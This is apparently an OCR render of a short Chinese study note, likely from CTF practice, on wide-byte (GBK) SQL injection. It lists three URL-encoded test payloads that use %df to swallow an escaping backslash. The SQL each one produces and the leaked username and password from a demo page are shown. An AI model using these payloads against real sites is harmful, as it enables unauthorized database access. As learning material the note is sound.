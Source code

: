   

**进行测试**

  

1.`id=%27%27`

报错：

`sql thing: SELECT * FROM user WHERE id='\'\'' LIMIT 0,1<br><br>`

  

2.`id=1%27%df%20or%201=2--+`

  

`sql thing: SELECT * FROM user WHERE id='1\'� or 1=2-- ' LIMIT 0,1<br><br>Your name is: John<br>your psw: daidgiaegigak`

  

3.`id=1%df%27%20or%201=2--+`

  

`sql thing: SELECT * FROM user WHERE id='1�\' or 1=2-- ' LIMIT 0,1<br><br>Your name is: John<br>your psw: daidgiaegigak`

  

第三条就是我们所说的组成汉字，

  

`�\`变成一个汉字（这里解析不出来），所以 id = '1' or 1=2,单引号逃逸成功，也就成功执行了sql注入。

  

还可以换其他sql注入语句，这里只是简单测试就不写了。

  

值得研究的是，第二条，也是打错了的，但是注入依旧成功了——是注释的作用还是反斜杠的注释作用？

  

<hr>

<hr>

  

## 盲注

  
  

<hr>

  

[SQL注入](https://ctf-wiki.org/web/sqli/)
